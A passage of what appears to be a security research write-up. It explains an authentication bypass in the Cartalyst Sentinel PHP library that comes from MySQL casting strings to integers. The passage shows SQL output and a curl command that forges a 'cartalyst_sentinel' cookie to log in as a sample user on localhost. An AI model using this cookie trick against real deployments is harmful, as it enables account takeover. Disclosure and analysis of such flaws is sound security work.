 ```sql
| 35 |       4 | 5M6o0sbstpSTlf2v0Rk0tch56eyZQUrT | 2025-03-19 18:34:11 |
+----+---------+----------------------------------+---------------------+
```
<PRE>

Look at the last entry. What do you see? The code starts with a number:
</PRE>
```sql
mysql> select * from persistences where code=5;
+----+---------+----------------------------------+---------------------+
| id | user_id | code                             | updated_at          |
+----+---------+----------------------------------+---------------------+
| 35 |       4 | 5M6o0sbstpSTlf2v0Rk0tch56eyZQUrT | 2025-03-19 18:34:11 |
+----+---------+----------------------------------+---------------------+
```
<PRE>

Wait, what!? A type juggle inside MySQL! The real question is, can this
behavior be exploited through PHP code? I'll give you the tl;dr;
</PRE>
```console
researcher@venus:~/sentinel$ curl --cookie 'cartalyst_sentinel=5' http://localhost:8000/
logged in as john.wick@example.com
now do something
```
<PRE>

</PRE>
**Boom, we are in as John Wick.**
<PRE>

</PRE>
## --[ 3. Vulnerability Analysis
<PRE>

Let's dive into the root cause of this issue. Actually, this is a
collection of errors that leads to a calamity. The first one, you know,
is that MySQL allows type juggling.

When a string is compared to an integer, MySQL tries to cast the string to
an integer before doing the comparison. This can lead to surprising
behavior. When the string starts with a numeric prefix ("5M6o..") then
the cast will end up as that numeric value:
</PRE>
```sql
mysql> select CAST("5M6o0sbstpSTlf2v0Rk0tch56eyZQUrT" AS SIGNED);
+----------------------------------------------------+
| CAST("5M6o0sbstpSTlf2v0Rk0tch56eyZQUrT" AS SIGNED) |
+----------------------------------------------------+
|                                                  5 |
+----------------------------------------------------+
```
<PRE>
